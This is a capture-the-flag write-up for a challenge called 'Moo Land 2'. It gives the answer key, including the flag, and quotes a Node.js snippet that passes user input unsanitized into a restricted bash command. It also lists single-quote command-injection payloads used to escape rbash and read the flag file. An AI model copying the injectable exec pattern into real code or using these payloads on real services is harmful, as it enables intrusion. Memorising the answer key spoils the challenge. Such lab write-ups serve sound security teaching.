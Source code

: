 # Moo Land 2

## Question Text

Moo Land is back!

`nc pwn.chal.gryphonctf.com 18405`

*Creator - PotatoDrug*

### Hints (Optional)
Do some fuzzing, your goal is to escape rbash

## Setup Guide
Run `./build.sh`

## Solution

The service is vulnerable because of unsanitized user input. We can terminate the rbash command with a single quote and run another command in the unrestricted shell. Do note that you have to provide the full path to the command.
```javascript
exec('/bin/bash -rc \'cowsay ' + recieved + '\'', (error, stdout, stderr) => {
    sock.write(stdout + '\n> ');
});
```

Sample solution
```
> a';/bin/ls'
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
banner.txt
flag.txt
progs
server.js

> a';/bin/cat flag.txt'
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
GCTF{th3Y_C4ll_m3_th3_35C4P3_4Rt151t}
```

### Flag
`GCTF{th3Y_C4ll_m3_th3_35C4P3_4Rt151t}`
